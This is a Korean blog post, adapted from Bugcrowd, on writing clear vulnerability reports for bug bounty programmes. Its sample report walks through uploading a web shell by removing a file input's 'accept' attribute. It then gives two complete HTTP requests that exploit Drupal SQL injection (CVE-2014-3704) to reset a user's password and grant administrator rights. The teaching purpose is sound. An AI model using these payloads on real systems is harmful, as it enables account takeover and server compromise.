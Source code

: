 ```yaml
---
layout: post
title: 괜찮은 취약점 리포트 쓰는법
description: 괜찮은 취약점 리포트 쓰는법
headline:
modified: 2017-02-26
category: research
imagefeature:
mathjax:
chart:
comments: true
featured: true
---
```


이 글은 Bugcrowd 블로그의 “[advice-for-writing-a-great-vulnerability-report](https://blog.bugcrowd.com/advice-for-writing-a-great-vulnerability-report/)” 라는 글을 바탕으로 내용을 요약하면서 완전히 재작성한 글입니다. 시간이 많다면 원문을 읽어보세요!


버그헌터나 보안 컨설턴트들이 취약점을 찾으며 가장 많은 시간을 낭비하는 것이 리포트를 쓰는 것입니다. 리포트의 질을 향상시키고 시간을 절약해줄 몇 가지 방법을 소개합니다.

### 독자를 위해 작성하자.
취약점 리포트를 작성할 때 가장 중요한것은 리포트를 읽어줄 독자가 있다는 것 입니다. 문서를 읽는 사람은 개발자일 수도 보안 엔지니어 일 수 도 있죠. 아무리 보안에 조예가 깊어도 글을 쓴 사람의 마음까지 읽지는 못합니다. 독자가 읽기에 쉽우면서 명확하고, 목적이 있으며 움직이기 쉬운 리포트는 좋은 평가를 받을 수 있습니다.

### 명확하게 작성하자.
명확한 의사소통은 독자의 이해에 큰 도움이 됩니다. 몇 가지 취약점들은 설명하기가 굉장히 까다롭습니다. 그런 취약점들을 초등학생이 이해할 수 있게 작성하는 것은 어렵습니다. 하지만 초등학생도 이해할 수 있는 리포트를 적는다면 누구든 취약점을 이해시킬 수 있습니다. 명확하게 작성하는 것은 단어나 문맥뿐만아니라 리포트의 형식도 중요합니다. 이 글의 말미에 리포트의 형식을 몇 가지 추천하겠습니다.

### 의도를 밝히자.
리포트에 정확한 의도가 없다면 읽는 독자가 분석하기 어려워집니다. 취약점 보고서에는 명확한 목적이 있어야합니다. 독자가 글을 통해 의도를 파악하길 바라면 안됩니다. 소극적으로 표현하지 말고 현재의 버그와 취약점의 위험도와 개선방안에 대해 강력하게 표현해야 합니다.

### 행동하게 만들자.
행동하게 만드는 의사소통을 해야합니다. 독자는 리포트를 읽고 "응 알겠어, 어떻게 수정하는지 알겠어" 할 수 있도록, 독자 스스로가 무엇을 해야하는지 아이디어를 가지고 움직일 수 있게 만들어야합니다. 또한 버그와 관련된 위험도를 효과적으로 전달해야 합니다. 우리는 보안 전문가로서 흩어진 점을 연결하여 취약점이 가질 수있는 예상되는 위험을 알려줘야 합니다.

이 모든 것을 하나로 합친 리포트 예제 입니다.

** 제목 ** : 독자가 가장 먼저 보게 되는것이 제목입니다. 좋은 제목은 버그의 유형, 발견된 곳 그리고 영향력을 포함해야 합니다. 예를 들어 "이력서 업로드 양식에서 파일 업로드 취약점 발생 및 원격 임의코드 실행가능"라는 제목은 "앱에서 RFI Injection 발견"보다 훨씬 좋은 제목입니다. 제목에서 찾은 것, 발견 한 곳, 취약점의 도달 범위를 정확하게 나타내야 합니다.

** Bug Type ** : Bug Type은 명확해야합니다. 예를 들어 발견 된 버그가 XSS 인 경우에 DOM base XSS인지 Reflected XSS인지 기록하는 것은 독자가 조직에 보고할 때 취약점의 위험을 인지하는 열쇠입니다.

** URL ** : 독자가 리포트에서 URL 검증에 가장 많은 시간을 할애합니다. URL은 두번봐도 모자랍니다. 

** 증명 단계 ** : 증명 단계가 매우 세부적이여야 합니다. 누가 검토 할 지 알 수 없으므로 최대한 많은 정보를 제공해야합니다.

- 하 : ‘www.thatsite.com’에 접속해서 쉘을 업로드 한 뒤, 쉘에 접속한다.

- 중 :
  - 브라우저를 통해 ‘www.thatsite.com’에 접속한다.
  - “upload image” 버튼을 누른다.
  - 다음 페이지에서, “choose file” 버튼을 오른쪽 클릭한다, 그리고 “inspect element”를 선택한다.
  - 새로 열려진 창에서 '<input type = file'행을 찾고 'accept' 속성을 모두 제거한다.
  - 파일 선택을 클릭한다.
  - shell.php 파일을 선택한다.
  - 쉘을 업로드 한다.
  - Profit

- 상 :
  - ‘www.thatsite.com’에 접속한다.
  - “upload image” 버튼을 누른다. 첨부된 스크린샷 1(screenshot1.png)에서 버튼의 위치를 확인할 수 있다.
  - “choose file” 버튼을 오른쪽 클릭한다, 그리고 “inspect element”를 선택한다. 첨부 된 스크린 샷 2(screenshot2.png)는 결과 화면을 보여준다.
  - '<input type = file' 행으로 이동하여 'accept' 속성을 제거한다. 첨부 된 두 개의 스크린 샷(screenshot3.png, screenshot4.png)은 수정 전후의 화면을 보여준다.
  - "choose file" 버튼을 클릭하고 shell.php 파일을 선택한다. 첨부 된 스크린 샷 5(screenshot5.png)는 내가 사용했던 파일 (shell.php)과 프로세스를 보여준다.
  - 쉘을 업로드 한다. 쉘은 [URL]에서 접속이 가능하다. 이 쉘은 원격에서 서버를 조종할 수 있다. 예를 들어, 현재의 디렉토리에 속하는 파일들의 목록을 볼 수 있다. 더 자세한 정보는 첨부 된 파일(details.txt) 과 자세한 화면이 포함된 스크린 샷 6 (screenshot6.png)에서 확인할 수 있다.

** 추가 정보 ** : 금액을 좌우하는 중요한 부분입니다. 추가의 정보에는 발견 한 취약점에 대한 영향력과 위험도에 대해 설명합니다. 간결 할뿐만 아니라 해당 비지니스의 다른 분야의 사람들이 이해할 수있는 방식으로 설명하는 것이 중요합니다. 이 단계에서 취약점이 해당 조직에 가져오는 위험을 기술하는 것이 중요합니다.

- 하 : 서버는 오래된 버전의 Drupal을 사용하여 SQLi에 취약합니다.

- 상 : 해당 장비는 SQL Injection 공격에 영향을 받는 Drupal 버전을 사용하고 있습니다(CVE-2014-3704, DRUPAL-SA-CORE-2014-005). 이 시스템은 8443 포트에서 [응용 프로그램] [버전]을 실행하고 있습니다. 이 [응용 프로그램] [버전]은 사용자이름 열거를 허용하고 있습니다(https://www.drupal.org/node/1004778). 하지만 디자인 철학 때문에 [응용 프로그램] 개발자는 사용자이름 열거가 보안 위협이 아니라고 판단했습니다.

이 두 가지 취약점을 이용하여 공격자는 주어진 사용자 계정을 조작 할 수 있습니다.
- 임의 유저의 권한을 관리자로 변경가능.
- 임의 유저의 비밀번호를 변경 가능.

공격자는 임의의 유저의 정보를 얻기 위해 `http://[site]/admin/views/ajax/autocomplete/user/a` 으로 웹 요청을 보내 ‘a’로 시작하는 모든 유저의 이름을 획득합니다. 그 다음에 `http://[site]/user/[username]`으로 웹 요청을 보내 해당 유저의 고유 key를 획득합니다. 획득한 고유 key를 통해 SQL Injection 공격(CVE-2014-3704)를 사용하여 사용자 암호를 공격자가 원하는것으로 변경할 수 있습니다.

'adam'사용자 비밀번호 변경 요청 예는 다음과 같습니다.

```http
POST /login?destination=node HTTP/1.1
HOST: [Site]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Referer: https://[site]/login?destination=node
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

name[0;update%20users%20set%20passwd%3D%22%2524S%2524DIkdNZqdxqh7Tmufxs8l1vAu0wdzxF%252F%252FsmWKAcjCv45KWjK0YFBg%22%20where%20user%3D%22adam%22;#%20%20]=test&name[0]=test&pass=test&form_id=user_login_block&op=Log+in"
```

공격자가 요청을하면 adam의 암호가 'pwnd'로 변경됩니다. 해당 사용자에게 관리 권한을 부여하려면 두 번째 요청(고유 Key 사용)이 필요합니다.

```http
POST /login?destination=node HTTP/1.1
HOST: [Site]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Referer: https://[site]/login?destination=node
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

name[0;update%20user_roles%20set%20rid%3D3%20where%20uid%3D[numeric user id];#%20%20]=test&name[0]=test&pass=test&form_id=user_login_block&op=Log+in"
```

공격자는 이제 계정의 비밀번호를 변경하고 사용자 권한을 관리자 권한으로 상승시켰습니다.

"추가 정보"는 문제를 해결하는 방법에 대한 제안을 포함하기에 좋은 곳입니다. 문제를 해결하는 방법에 대한 제안으로 code snippets, configuration snippets 또는 수정 프로세스 지침을 포함시켜보세요. 독자가 버그가 있음을 알지 못한다고 가정하여 문제를 해결하는 적절한 방법을 제시해야 합니다. 단순히 리포트를 제공하는 것이 아니라 지식을 공유하고 통찰력을 포함해야 합니다. 이것이 행동하게 만드는 의사소통입니다.

** 첨부 파일 ** : 첨부 파일은 동료입니다. 화면을 기록해서 첨부한다면 통해 분명한 증거를 얻을 수 있습니다. 짧은 시간의 동영상과 잦은 스크린 샷은 독자가 이해하는 데 도움이 될 수 있습니다.

이 글이 너무 많은것을 요구한다는것을 알고 있습니다. 하지만 연습을 많이하면 쉽고, 반복할 필요가 없어집니다. 괜찮게 작성된 리포트는 독자로부터 질문을 받을 필요가 없어집니다. 독자의 질문이 없어짐으로써, 독자들의 결정이 신속하게 처리되어 금전적인 보상도 늘어나게 됩니다.

추가적인 참고자료 : 
- https://researcherdocs.bugcrowd.com/docs/reporting-a-bug
- https://blog.bugcrowd.com/writing-up-a-poc-by-planet-zuda/
